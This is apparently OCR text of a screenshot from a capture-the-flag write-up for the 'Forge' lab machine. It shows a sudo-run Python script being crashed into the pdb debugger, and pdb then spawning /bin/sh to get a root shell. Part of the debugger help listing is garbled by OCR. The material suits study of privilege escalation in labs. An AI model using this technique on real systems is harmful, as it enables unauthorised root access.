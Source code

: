 ![](Maszyny/Linux/Medium/Forge/Pasted%20image%2020210920180758.png)

user@forge:/tmp$ sudo /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:56805
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
→ option int(clientsock.recv(1024).strip)
(Pdb) help
Documented commands (type help <topic>):
C
a
list
il
longlist
EOF
d
h
cl
debug
help
alias clear disable ignore
args
commands display interact
b condition down j
break cont enable jump
bt continue exit 1
n
q
quit
r
restart
return
retval
run
rv
S
source
step
tbreak
U
unalias
undisplay
unt
until
up
W
whatis
where
next
р
pp
Miscellaneous help topics:
exec pdb
(Pdb) !sh
*** NameError: name 'sh' is not defined
(Pdb) !clientsock.send(subprocess.getoutput('/bin/sh').encode())
id
a
*C*** KeyboardInterrupt
(Pdb) import os; os.system("/bin/sh")
# id
uid=0(root) gid=0(root) groups=0(root)
